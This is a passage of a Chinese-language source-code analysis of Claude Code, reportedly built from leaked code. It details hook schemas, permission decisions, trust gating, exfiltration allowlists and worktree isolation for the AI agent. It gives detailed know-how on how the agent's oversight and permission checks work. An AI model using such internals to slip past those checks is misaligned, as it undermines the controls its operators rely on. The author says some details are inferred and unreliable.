`NON_ASCII_PATTERN` 拒绝非 ASCII 字符的市场名，确保市场名只用 ASCII 字符，杜绝同形字攻击。这是对 Unicode 诈骗的防御。

### 112.13 官方 org 验证

`validateOfficialNameSource`：保留名必须来自 `OFFICIAL_GITHUB_ORG = 'anthropics'`。即使有人用官方保留名（如 `claude-code-marketplace`），如果其 GitHub org 不是 `anthropics`，也会被拒绝。这防止了"用官方名但非官方源"的冒充。

### 112.14 SAFE_SKILL_PROPERTIES 的白名单

`SAFE_SKILL_PROPERTIES` 白名单自动允许"安全"技能，其余 `behavior: 'ask'`。白名单让已知安全的技能（如只读分析技能）无需每次询问，而未知技能默认 ask。这是"默认拒绝，白名单允许"的安全策略——对新技能保守，对已知安全技能便利。

支持 `Skill(name)` / `Skill(name:*)` allow/deny 规则，让用户可以精确控制哪些技能被允许。这种规则语法与工具权限一致，统一了权限配置体验。


## 第 113 章 钩子配置集成与输出协议

第 38 章概述了钩子配置，但 settings.json 集成的细节值得深入。

### 113.1 HooksSchema 的结构

`HooksSchema`（`src/schemas/hooks.ts:211`）：`z.partialRecord(z.enum(HOOK_EVENTS), z.array(HookMatcherSchema()))`。每个事件（如 PreToolUse）对应一个 HookMatcher 数组，每个 HookMatcher 含 `matcher?: string`（工具名匹配）和 `hooks: HookCommand[]`（实际钩子）。

### 113.2 HookMatcherSchema 的 matcher 语义

`HookMatcherSchema`（第 194 行）= `{ matcher?: string, hooks: HookCommand[] }`。matcher 对工具类事件匹配工具名（支持精确、`|` 分隔、正则）；对 SessionStart 匹配 source 等。没有 matcher 表示匹配所有。

### 113.3 if 条件的权限规则语法

`if`：使用权限规则语法（如 `Bash(git *)`）在执行前过滤。这让钩子可以只在特定工具调用时触发——如 `if: "Bash(git *)"` 让钩子只在 git 命令时执行，避免无谓 spawn 其他命令的钩子。

### 113.4 allowedHttpHookUrls 的 URL 白名单

`allowedHttpHookUrls`（HTTP 钩子 URL 白名单）。HTTP 钩子可以 POST 到任意 URL，这是安全风险（可能泄露数据到恶意服务器）。白名单限制 HTTP 钩子只能发到批准的 URL，防止数据泄露。

### 113.5 httpHookAllowedEnvVars 的环境变量白名单

`httpHookAllowedEnvVars`。HTTP 钩子可以发送环境变量，但环境变量可能含敏感信息（如 API key）。白名单限制只能发送批准的环境变量，防止泄露。

### 113.6 hookJSONOutputSchema 的校验

`hookJSONOutputSchema`（`types/hooks.ts:169`）校验钩子输出的 JSON。以 `{` 开头按 JSON 解析校验；否则当纯文本。这让钩子可以输出结构化决策（JSON）或纯文本（日志）。

### 113.7 syncHookResponseSchema 的顶层字段

`syncHookResponseSchema`（`types/hooks.ts:50`）顶层：`continue: false`（+`stopReason`）、`suppressOutput`、`decision: "approve"|"block"`（+`reason`）、`systemMessage`。

- `continue: false` 阻止继续
- `suppressOutput` 抑制输出
- `decision: approve/block` 是通用决策
- `systemMessage` 注入系统消息

### 113.8 hookSpecificOutput 的事件细分

`hookSpecificOutput` 按事件细分（第 70-163 行）：

- **PreToolUse**：`permissionDecision: allow|deny|ask`、`updatedInput`（改写工具入参）、`additionalContext`
- **UserPromptSubmit**：`additionalContext`
- **PostToolUse**：`additionalContext`、`updatedMCPToolOutput`（改写 MCP 工具输出）
- **PermissionRequest**：`decision: {behavior:'allow', updatedInput, updatedPermissions} | {behavior:'deny', message, interrupt}`
- **SessionStart**：`initialUserMessage`、`watchPaths`
- **Elicitation/ElicitationResult**：`action: accept|decline|cancel` + `content`

每种事件有专属的输出字段，让钩子能精确影响该事件的决策。如 PreToolUse 的 `updatedInput` 让钩子能改写工具入参（如规范化路径），这是强大的"输入改写"能力。

### 113.9 additionalContext 的上下文注入

`additionalContext` 出现在 PreToolUse/UserPromptSubmit/PostToolUse，让钩子注入额外上下文。如 PreToolUse 钩子可以注入"这个文件上次修改的上下文"，让模型有更多背景信息。

### 113.10 watchPaths 的文件监听

SessionStart/CwdChanged/FileChanged 的 `watchPaths` 让钩子声明要监听的文件路径。声明后，这些文件变化会触发 FileChanged 钩子，让钩子能响应文件变化（如自动重新加载配置）。


### 113.11 TOOL_HOOK_EXECUTION_TIMEOUT_MS 的 10 分钟

每个钩子带独立 timeout（默认 `TOOL_HOOK_EXECUTION_TIMEOUT_MS = 10min`，第 166 行）。10 分钟是很长的超时——这允许长时间运行的钩子（如完整测试套件）。但 10 分钟也可能让用户等待，需平衡。

### 113.12 createCombinedAbortSignal 的信号合并

`createCombinedAbortSignal` 合并外部 signal。钩子的 abort signal 是"外部（如用户中断）+ 钩子超时"的合并——任一触发都中止钩子。这让用户中断能立即停止钩子，无需等超时。

### 113.13 CLAUDE_ENV_FILE 的环境变量文件

`CLAUDE_ENV_FILE`（SessionStart/Setup/CwdChanged/FileChanged 时写入，供后续 bash 命令继承）。钩子可以声明环境变量文件，后续 bash 命令继承这些环境变量。这让钩子能"预配置环境"——如 SessionStart 钩子设置 PROJECT_TOKEN，后续 Bash 命令用它。

### 113.14 DEFAULT_HOOK_SHELL 的 shell 选择

`hook.shell ?? DEFAULT_HOOK_SHELL`（bash 或 powershell）。默认 bash，但可配置 powershell。Windows bash 走 Git Bash（`findGitBashPath`），PowerShell 走 `pwsh -NoProfile -NonInteractive -Command`。

### 113.15 SLOW_PHASE_LOG_THRESHOLD_MS 的慢日志

`SLOW_PHASE_LOG_THRESHOLD_MS=2000` 慢日志；`HOOK_TIMING_DISPLAY_THRESHOLD_MS=500` 内联计时摘要（ant-only）。慢钩子（>2s）记日志便于优化，>500ms 内联显示（ant 调试用）。


## 第 114 章 钩子注册来源与匹配去重

第 38 章概述了钩子配置来源，但来源的多样性值得系统梳理。

### 114.1 八路来源

钩子配置来自八路来源：

1. `userSettings`（`~/.claude/settings.json`）
2. `projectSettings`（`.claude/settings.json`）
3. `localSettings`（`.claude/settings.local.json`）
4. `policySettings`（managed/MDM/plist/HKLM）
5. `plugin hooks`（插件清单的 hooks 字段）
6. `skill hooks`（技能 frontmatter 的 hooks 字段）
7. `frontmatter hooks`（代理 frontmatter，`registerFrontmatterHooks.ts`，其中 Stop 对子代理转为 SubagentStop）
8. `session hooks`（SDK callback，`sessionHooks.ts`）

八路来源让钩子可以在不同层级配置——用户全局、项目、本地、企业策略、插件、技能、代理、SDK 会话。这种多样性让钩子能适配各种场景——企业用 policy 强制钩子，插件提供打包钩子，技能附带钩子，SDK 程序化注册 callback。

### 114.2 registerSkillHooks 的技能钩子注册

`registerSkillHooks`：注册技能 frontmatter 中的 hooks（受 `pluginOnlyPolicy` 门控）。技能可以在 frontmatter 声明 hooks，调用技能时注册。这让技能能"附带钩子"——如一个部署技能附带 PreToolUse 钩子拦截危险部署命令。

### 114.3 sessionHooks 的 SDK callback

`sessionHooks.ts` 的会话钩子（SDK callback）。SDK 程序化注册 JS 回调作为钩子，无需 shell 命令。这让 SDK 用户能在代码中定义钩子逻辑，而非写 shell 脚本。


### 114.4 callback 类型的 SDK 注册

`callback`（`src/types/hooks.ts:211`，SDK 注册的 JS 回调）。这是钩子的内部类型——SDK 程序化注册的 JS 函数，而非配置中的 command/prompt/agent/http。callback 钩子无需 shell，直接在进程内执行 JS，延迟最低。

### 114.5 function 类型的会话存储

`function`（会话存储的函数钩子）。这是另一种内部类型——会话期间动态注册的函数钩子。与 callback 类似但生命周期是会话级。

### 114.6 内部类型不持久化

callback 和 function 类型不持久化到 settings.json——它们是运行时注册的，会话结束即消失。这与 command/prompt/agent/http 四种持久化类型不同。这种区分让"配置型钩子"与"程序型钩子"分离——前者声明式配置，后者代码注册。


### 114.7 hookDedupKey 的去重

`hookDedupKey`（第 1453 行）对钩子去重。如果同一钩子被多次匹配（如多个 matcher 都匹配同一工具），dedup 确保只执行一次。hookDedupKey 通常基于钩子的唯一标识（如 source + name + type）。

### 114.8 getMatchingHooks 的匹配过滤

`getMatchingHooks()`（第 1603 行）→ 按 matcher、`if` 条件过滤、去重。匹配是"过滤"过程——从所有注册的钩子中，过滤出匹配当前事件的钩子，再按 if 条件过滤，最后去重。

### 114.9 shouldSkipHookDueToTrust 的信任检查

`shouldSkipHookDueToTrust()`（第 286 行，交互模式下所有钩子都要求工作区信任）。这是安全防御——交互模式下，未信任的项目钩子不执行，防止恶意仓库的钩子执行危险代码。信任通过项目信任对话框建立。

### 114.10 runPreToolUseHooks 的结果类型

`runPreToolUseHooks()`（`toolHooks.ts:435`）`executePreTools` 产出多种结果类型：

- `message` → UI 进度/附件
- `blockingError` → 转为 `hookPermissionResult: {behavior:'deny'}`
- `preventContinuation` + `stopReason` → 标记停止后续
- `permissionBehavior`（allow/ask/deny）→ `hookPermissionResult`
- `updatedInput`（无权限决策时）→ `hookUpdatedInput` 透传修改
- `stop` → 立即停止

### 114.11 hook_additional_context 的 PostToolUse 注入

`runPostToolUseHooks()` 与 `runPostToolUseFailureHooks()`：产出 `hook_additional_context`、`hook_blocking_error`、`hook_stopped_continuation`、`updatedMCPToolOutput`。`hook_additional_context` 让 PostToolUse 钩子注入额外上下文（如工具结果的补充说明）。

### 114.12 runPostToolUseFailureHooks 的错误处理

`runPostToolUseFailureHooks`（`:193`）工具抛错时运行，如非 AbortError。让失败也能触发钩子——如错误日志钩子记录工具失败，或自动重试钩子。


### 114.13 启动时快照

`captureHooksConfigSnapshot()`（第 95 行）在启动时捕获钩子配置快照。快照合并所有来源的钩子配置，避免运行时重复合并——每次执行钩子都合并八路来源会浪费，快照一次合并，后续复用。

### 114.14 快照的不可变性

快照在启动后不变——会话期间新增的钩子配置（如 session hooks）单独管理，不修改快照。这确保了快照的引用稳定性——执行钩子时引用快照，无需担心并发修改。


## 第 115 章 钩子的异步执行与条件过滤

第 39-40 章概述了钩子执行，但异步钩子与 asyncRewake 机制值得深入。

### 115.1 async: true 的后台化

第一行输出 `{"async": true}` 即被后台化（第 1117-1164 行检测），由 `AsyncHookRegistry.ts` 跟踪。这让长时间运行的钩子不阻塞工具执行——钩子声明 async 后，工具继续执行，钩子在后台运行。

### 115.2 asyncRewake 的退出码 2 唤醒

`asyncRewake` 钩子在退出码 2 时通过 `enqueuePendingNotification` 唤醒模型（`executeInBackground`，第 184 行）。这是"异步钩子完成后通知模型"——async 钩子可能运行很久（如构建任务），完成后用退出码 2 触发 `enqueuePendingNotification`，像 task-notification 一样唤醒模型继续。

这一机制让"构建完成后继续"成为可能——模型发起构建（async 钩子），构建完成后唤醒模型处理结果。这比轮询构建状态高效。

### 115.3 requestPrompt 协议的钩子弹窗

钩子输出带 `{"prompt": id, ...}` 行可向用户弹窗提问（第 1062-1110 行）。这让钩子能与用户交互——如部署钩子询问"部署到哪个环境"。`requestPrompt` 协议让钩子不仅是"执行+返回"，还能"执行+问用户+继续"。

### 115.4 SessionEnd 的紧超时

SessionEnd 有更紧的 1500ms 默认超时（`getSessionEndHookTimeoutMs`，第 176 行，可用 `CLAUDE_CODE_SESSIONEND_HOOKS_TIMEOUT_MS` 覆盖）。因为进程即将退出，不能长时间阻塞——SessionEnd 钩子应快速完成（如保存状态、清理资源），1500ms 限制防止钩子拖慢退出。

### 115.5 BoundedUUIDSet 的环形缓冲去重

虽然 BoundedUUIDSet 主要用于 Bridge，但钩子系统也有去重需求——`hookDedupKey`（第 1453 行）对钩子去重。如果同一钩子被多次匹配（如多个 matcher 都匹配），dedup 确保只执行一次。这是"幂等执行"的防御。

### 115.6 if 的权限规则语法

`if` 使用权限规则语法（如 `Bash(git *)`）在执行前过滤。这不是简单的正则匹配，而是复用权限规则的解析与匹配逻辑——`if: "Bash(git *)"` 用 `permissionRuleParser` 解析，用 `bashToolCheckPermission` 匹配。

复用权限规则语法让 if 条件的表达力与权限规则一致——可以精确匹配工具+参数，如 `if: "Bash(npm test)"` 只在 npm test 命令时触发钩子。

### 115.7 prepareIfConditionMatcher 的预编译

`prepareIfConditionMatcher`（hooks.ts:1390）预编译 if 条件。每次执行钩子都解析 if 会浪费——预编译把 if 字符串解析为 matcher 函数，后续直接调用 matcher，避免重复解析。

### 115.8 避免无谓 spawn

`if` 的核心价值是"避免无谓 spawn"。如果没有 if，钩子在每个匹配事件都 spawn 一次进程（command 钩子 spawn shell）。if 条件在 spawn 前过滤，不满足条件则不 spawn，节省进程开销。

对于 PreToolUse 钩子，每个工具调用都触发——如果钩子只在 `Bash(git *)` 时有意义，没有 if 会在每个工具（Read/Write/Edit...）都 spawn 一次，极大浪费。if 条件让钩子只在相关工具时 spawn。


### 115.9 once 的单次执行

`once` 字段让钩子只执行一次。首次触发后，标记为已执行，后续触发跳过。这适合"初始化"类钩子——如 SessionStart 钩子设置环境，只需一次。

### 115.10 once 的会话级

once 是会话级——会话内只执行一次，新会话重置。这与持久化不同——once 不持久化到磁盘，会话结束即失效。

### 115.11 async 与 once 的组合

`async` 和 `asyncRewake` 与 `once` 可组合。`once` 的 async 钩子只后台执行一次，完成后不唤醒（因为只一次）。`asyncRewake` 的 once 钩子第一次完成后唤醒，后续不再触发。


### 115.12 DEFAULT_HOOK_SHELL

`DEFAULT_HOOK_SHELL` 默认 bash。bash 是 Unix 系统的默认 shell，多数钩子用 bash 编写。

### 115.13 PowerShell 的 pwsh -NoProfile

PowerShell 走 `pwsh -NoProfile -NonInteractive -Command`。`-NoProfile` 不加载用户 profile（避免 profile 中的代码干扰钩子），`-NonInteractive` 非交互（钩子不应等待用户输入）。

### 115.14 Windows bash 走 Git Bash

Windows bash 走 Git Bash（`findGitBashPath`）。Windows 没有原生 bash，Git Bash 提供 bash 环境。`findGitBashPath` 定位 Git Bash 安装路径，路径经 `windowsPathToPosixPath` 转换为 POSIX 路径。

### 115.15 跨平台的一致性

shell 选择让钩子跨平台一致——同一钩子配置在 macOS/Linux 用 bash，在 Windows 用 Git Bash 或 PowerShell。这确保了钩子的可移植性——开发者写的 bash 钩子在 Windows 也能跑（通过 Git Bash）。


### 115.16 CLAUDE_PROJECT_DIR 的项目根

`CLAUDE_PROJECT_DIR` 环境变量标识项目根目录。钩子可以用它定位项目文件——如 `$CLAUDE_PROJECT_DIR/.eslintrc` 引用项目的 eslint 配置。

### 115.17 CLAUDE_PLUGIN_ROOT/DATA 的插件路径

`CLAUDE_PLUGIN_ROOT`/`CLAUDE_PLUGIN_DATA` 提供插件根目录和数据目录。插件钩子用它们定位插件资源——`$CLAUDE_PLUGIN_ROOT/scripts/check.sh` 引用插件自带的脚本。

### 115.18 CLAUDE_PLUGIN_OPTION_* 的插件选项

`CLAUDE_PLUGIN_OPTION_*` 提供插件的 userConfig 选项值。插件钩子可以用这些环境变量读取用户配置的选项——`$CLAUDE_PLUGIN_OPTION_DEPLOY_TARGET` 读取用户配置的部署目标。

### 115.19 stdin 的 JSON 输入

JSON 输入通过 stdin 写入。钩子从 stdin 读取事件数据（如工具调用入参、会话信息），解析后处理。这是标准的"进程间通信"——钩子是独立进程，通过 stdin 接收结构化输入。


### 115.20 以 { 开头按 JSON 校验

`parseHookOutput()`（第 399 行）：以 `{` 开头按 JSON 用 `hookJSONOutputSchema` 校验。如果钩子输出 JSON（结构化决策），解析校验。

### 115.21 否则当纯文本

否则当纯文本。纯文本输出作为日志/消息展示，不影响决策。这让钩子可以输出调试信息（纯文本）或结构化决策（JSON），灵活。

### 115.22 容错性

JSON 校验失败不报错——如果输出不是有效 JSON，当纯文本处理。这是容错设计——钩子可能输出带 ANSI 颜色的 JSON（无效 JSON），系统容错当纯文本，而非报错中断。


### 115.23 structured output 的重试上限

QueryEngine 层检查结构化输出重试上限（`:1005`）。如果模型的结构化输出不符合 schema，系统重试，但限制重试次数防止无限循环。

### 115.24 PreToolUse 钩子对 structured output 的影响

PreToolUse 钩子的 `additionalContext` 可能影响模型的 structured output——注入的上下文可能让模型改变输出格式。系统需在钩子注入上下文后重新评估 structured output 的合规性。


## 第 116 章 钩子的 Elicitation 集成与可观测性

### 116.1 ElicitRequest 与钩子

MCP 服务器的 ElicitRequest（elicitation）可以经钩子处理。`runElicitationHooks`（hook 可编程返回 accept/decline/cancel + content）。这让钩子能"自动响应 elicitation"——如企业策略钩子自动批准特定 elicitation，无需用户干预。

### 116.2 runElicitationResultHooks 的后处理

`runElicitationResultHooks` 后处理：非 accept 返回描述性 content。即使钩子返回 accept，result hooks 仍可改写或 block 为 decline。这是 elicitation 的"双层处理"——先 hook 决策，再 result hooks 后处理。

### 116.3 ElicitationCompleteNotification

`ElicitationCompleteNotificationSchema` 通知 elicitation 完成。设 `completed:true` on 匹配的 queue 事件。这让 UI 知道 elicitation 已完成（可能由服务器端完成），更新 UI 状态。


### 116.4 SLOW_PHASE_LOG_THRESHOLD_MS 的 2 秒阈值

`SLOW_PHASE_LOG_THRESHOLD_MS=2000` 慢日志。钩子执行超过 2 秒记慢日志，便于发现性能问题。2 秒是经验阈值——钩子通常应快速完成（毫秒级），超过 2 秒可能阻塞工具执行，值得记录。

### 116.5 HOOK_TIMING_DISPLAY_THRESHOLD_MS 的内联摘要

`HOOK_TIMING_DISPLAY_THRESHOLD_MS=500` 内联计时摘要（ant-only）。超过 500ms 的钩子在 UI 内联显示计时——让 ant 员工调试时直观看到哪个钩子慢。这是内部调试工具，外部构建不显示。

### 116.6 钩子的可观测性设计

慢日志与计时摘要体现了"可观测性"设计——钩子是用户/插件提供的代码，其性能不可预测，系统需能观测。慢日志让运维发现问题，计时摘要让开发者定位瓶颈。这是"可观测系统"的基本要求——不可观测的子系统无法优化。


### 116.7 runElicitationHooks 的前置决策

`runElicitationHooks`（elicitationHandler.ts）是前置——在用户看到 elicitation 弹窗前，钩子可以先决策。如企业策略钩子自动批准符合策略的 elicitation，用户无需干预。

### 116.8 runElicitationResultHooks 的后处理

`runElicitationResultHooks`（行 264-313）是后处理——即使钩子或用户返回 accept，result hooks 仍可改写或 block 为 decline。这提供了"最终审查"——如安全钩子在最终时刻拦截危险 elicitation。

### 116.9 elicitation_response 通知的观测

fire `elicitation_response` 通知用于可观测——记录 elicitation 的最终决策（accept/decline/cancel），便于审计。这让 elicitation 决策可追溯，不是黑盒。


## 第 117 章 历史会话持久化与 worktree 隔离

第 51 章概述了多层记忆，但 session transcript 的 JSONL 持久化值得深入。

### 117.1 JSONL 格式的行式存储

主 transcript：`getTranscriptPath()`（`sessionStorage.ts:202`）= `<projectDir>/<sessionId>.jsonl`。JSONL（JSON Lines）每行一条 JSON 消息。行式存储的优势是**可追加、可流式读取**——新消息直接追加到文件末尾（无需重写整个文件），读取时可以只读最后几行（如 `readLiteMetadata` 只读尾部 16KB）。

### 117.2 子代理 transcript 的分组

子代理 transcript：`getAgentTranscriptPath`（L247）= `<projectDir>/<sessionId>/subagents/agent-<agentId>.jsonl`，可分组到 `subagents/<subdir>/`。旁挂 `agent-<agentId>.meta.json`（agentType/worktreePath，`writeAgentMetadata` L283）。这种"主 transcript + 子代理 transcript"的分层让子代理的完整输出不污染主 transcript，但保留可追溯性。

### 117.3 readLiteMetadata 的 16KB 尾窗

`readLiteMetadata`（L3833 附近）只读 JSONL **尾部 16KB 窗口**提取会话标题/标签。因为标题/标签通常在 transcript 末尾（最后更新的位置），读尾部即可。这是一种"采样读取"——不读整个 transcript（可能很大），只读尾部提取元数据。

### 117.4 compact 后的 reAppendSessionMetadata

所以 compact 后要 `reAppendSessionMetadata`（compact.ts:711 注释）——compact 替换了消息历史，元数据可能不在新的尾部 16KB 窗口内，需要重新追加确保 readLiteMetadata 能读到。

### 117.5 detectSessionFileType 的类型识别

`detectSessionFileType`（`memoryFileDetection.ts:40`）识别 `session-memory/*.md` 与 `projects/*.jsonl`。这让系统能区分"会话记忆"与"会话 transcript"——两者格式不同（markdown vs JSONL），用途不同（摘要 vs 完整记录）。

### 117.6 MAX_TRANSCRIPT_READ_BYTES 的 50MB 上限

会话 transcript 本身只增不减（50MB 读取上限 `MAX_TRANSCRIPT_READ_BYTES`，`sessionStorage.ts:229`），压缩只影响上下文而非 transcript。transcript 是"历史档案"，永远不删（除非清理周期 cleanupPeriodDays 到期），compact 只是"从 transcript 中选取哪些消息进入当前上下文"。

### 117.7 createAgentWorktree 的 slug 命名

`createAgentWorktree(slug)`，slug 为 `agent-{agentId前8位}`。用 agentId 前 8 位而非完整 agentId 是为了路径简短——完整 agentId 很长（如 `a1b2c3d4-...`），前 8 位已足够唯一（16^8 ≈ 43 亿），路径更短易读。

### 117.8 buildWorktreeNotice 的路径翻译

fork + worktree 时注入路径翻译提示 `buildWorktreeNotice`（`forkSubagent.ts:205`）。fork 子代理继承了父的上下文，父上下文中的文件路径是主工作区的路径，但子代理在 worktree 中，路径不同。路径翻译提示告诉子代理"父说的 path/to/file 对应你这里的 worktree/path/to/file"。

这一翻译是必要的——如果没有它，子代理会尝试访问父上下文中的路径（主工作区），但这些路径在 worktree 中可能不存在或内容不同（worktree 是独立检出）。路径翻译让子代理能正确映射父的文件引用到自己的 worktree。

### 117.9 cleanupWorktreeIfNeeded 的有改动保留

完成后 `cleanupWorktreeIfNeeded`（第 644 行）：无改动则删除 worktree，有改动则保留。这是"保留工作成果"——如果子代理修改了文件（有改动），worktree 被保留，用户可以审查/合并这些改动；如果子代理只读未改（无改动），worktree 无价值，删除释放空间。

### 117.10 symlinkDirectories 与 sparsePaths

settings 的 `worktree` 配置含 `symlinkDirectories`/`sparsePaths`。`symlinkDirectories` 让 worktree 共享某些目录（如 node_modules，通过符号链接而非复制，节省空间）；`sparsePaths` 用 git sparse-checkout 只检出部分路径（大型仓库不需要全部文件）。

这些优化让 worktree 创建快速、空间高效——对于大型仓库，完整检出一个 worktree 可能很慢且占空间，sparsePaths 只检出相关路径，symlinkDirectories 共享重依赖目录。


## 第 118 章 channel notification 的 gate 与权限

### 118.1 gateChannelServer 的多层 gate

`gateChannelServer`（行 191-316）的 gate 顺序：

1. capability（`experimental['claude/channel']`）——服务器声明支持 channel
2. runtime gate（`isChannelsEnabled()` tengu_harbor）——运行时启用
3. auth（OAuth only，API key 用户阻塞）——认证要求
4. org policy（team/enterprise 需 `channelsEnabled:true`）——组织策略
5. session `--channels`——会话标志
6. marketplace 验证（plugin tag == 实际安装源）——插件来源验证
7. allowlist（`getEffectiveChannelAllowlist`）——白名单

七层 gate 层层过滤，确保 channel 安全——服务器支持、运行时启用、认证、策略、会话、来源、白名单都通过才允许。

### 118.2 shortRequestId 的 FNV-1a 哈希

`shortRequestId`（channelPermissions.ts:140-152）：FNV-1a 哈希 → base-25 编码 5 字母。FNV-1a 是快速非加密哈希，base-25 编码（去掉 `l` 防 1/I 混淆）生成 5 字母 ID。25^5≈9.8M 空间足够唯一。

### 118.3 ID_AVOID_SUBSTRINGS 的脏词过滤

`ID_AVOID_SUBSTRINGS`（fuck/shit/cunt/... 23 个）黑名单，命中则加盐重哈希，最多 10 次。这防止生成的 ID 含脏词——用户在 channel 中输入 `yes fuckx` 时，如果 ID 含脏词会很尴尬。加盐重哈希确保替代 ID 也不含脏词。


## 第 119 章 设计哲学的总结与反思

通读 Claude Code 源码后，最后对设计哲学做系统性总结与反思。

### 119.1 六大设计哲学的内在统一

第 1 章提炼了六大设计哲学：延迟加载、严格三阶段引导、结构化类型、prompt cache 友好、分层信任、确定性优先。这些哲学看似独立，实则内在统一——都服务于"在终端中提供安全、高效、可扩展的 AI 编程助手"这一核心目标。

延迟加载与三阶段引导服务于"高效"（快速启动）；结构化类型与 prompt cache 友好服务于"高效"（性能）与"可维护"；分层信任与确定性优先服务于"安全"。这些哲学在具体实现中相互支撑——如 prompt cache 友好需要结构化类型的稳定排序，分层信任需要延迟加载的 fast-path 短路。

### 119.2 LLM 作为编排者的范式转变

Claude Code 最深刻的哲学是"LLM 作为编排者"——把并发控制、任务分配、工具选择交给 LLM 而非代码。这反映了 AI 应用的范式转变：传统软件的"代码编排资源"变为"LLM 编排代码"。

Coordinator 模式的"无硬编码并发"是这一哲学的极致体现——信任 LLM 在单条消息内发多个 Agent 调用实现并行，而非用线程池/信号量。这要求 LLM 足够智能（理解任务结构决定并行性），也要求系统设计支持"LLM 驱动的并行"（如 AgentTool 在单消息内可被多次调用）。

### 119.3 文件即接口的透明性价值

"文件即接口"（记忆用 markdown、CLAUDE.md 用 @include、技能用 SKILL.md、插件用清单+目录）让系统极度透明可调试。这一选择牺牲了性能（文件 I/O 慢于内存/数据库）换取了透明性——一切都是可读文本，可手动编辑、版本控制、diff。

这种透明性对 AI 编程助手特别重要——模型可以 Read/Grep/Edit 这些文件，理解系统状态；用户可以手动检查/修复；调试时无需特殊工具，文本编辑器即可。透明性是"模型可操作"的前提。

### 119.4 纵深防御的安全观

Claude Code 的安全不是单一防线，而是纵深防御——权限规则 deny/ask/allow 三态、Bash AST 注入检测、hook allow 不绕过 deny、记忆路径穿越防护、插件市场策略门控、undercover 模式。每层防御不同的威胁，层层叠加。

这种纵深防御承认了"单点不可靠"——任何单一防线都可能被绕过（如 hook 可能被篡改、规则可能配置错误）。多层防御让攻击者需同时突破多层才能得手，大幅提高了攻击成本。

### 119.5 务实主义的工程取舍

文档多处体现了"务实主义"的工程取舍：

- 自动压缩熔断器（连续失败 3 次停止）——宁可手动处理也不无谓消耗
- `ONE_SHOT_BUILTIN_AGENT_TYPES`——省 token 比统一接口更重要
- 安全检查的 `classifierApprovable` 区分——auto 模式便利但不放过 Windows 旁路
- time-based microcompact 的缓存冷判定——有缓存保前缀，无缓存直接 clear
- SessionEnd 的 1500ms 紧超时——进程退出不等钩子

这些取舍没有"理论上最优"的洁癖，而是基于真实运维经验和性能数据的务实选择。优秀的工程不是追求理论完美，而是在约束下做出最优权衡。

### 119.6 对源码泄漏的反思

本文档源于源码泄漏事件。从工程角度看，泄漏揭示了 Claude Code 的内部实现，但也暴露了 Anthropic 的某些实践（如 undercover 模式、内部代号 Tengu/Capybara）。这对行业是警示——构建配置的疏忽（未排除 source map）可能导致源码泄漏。

但更值得反思的是，即使源码公开，Claude Code 的核心价值——模型能力、训练数据、系统提示词的工程化——并未完全泄漏。源码是"如何做"，而"做什么"和"为什么这样做"的智慧仍需深入理解才能提炼。本文档试图提炼这种智慧，让泄漏的源码成为学习材料而非窥探素材。

---

> **文档终**

> 本文档基于 Claude Code 泄漏源码的系统性源码阅读撰写，覆盖了从启动入口到 UI 渲染全部 35 个子系统。第一至十四部分为架构与实现总览；第十五部分（第 78-119 章）对各核心子系统进行了深度原理剖析与设计权衡分析，涵盖启动延迟隐藏、queryLoop 不变量、流式工具并发、权限分层决策、BashTool 安全分析、compact 提示词工程、记忆召回、多代理隔离、Bridge 一致性、Buddy 防作弊、终端协议、工具结果落盘、Coordinator 编排、配置合并、MCP 协议全栈、系统提示词组装、权限规则解析、文件系统 glob、auto 分类器等深度主题。文档包含 41 个 Mermaid 图表（架构图、流程图、时序图、状态图），119 个章节，约 10 万字，力求既纵览全局架构又深入关键实现细节。部分 ant-only 功能（KAIROS、buddy observer、reactiveCompact、contextCollapse、snip、cachedMicrocompact、bashClassifier）的核心实现在泄漏快照中缺失（feature-gated 动态 require，外部构建经 DCE 剔除），文档已明确标注并据调用点与接口契约还原其行为。随着对源码理解的深化，部分细节可能存在推断偏差，建议结合源码原文交叉验证。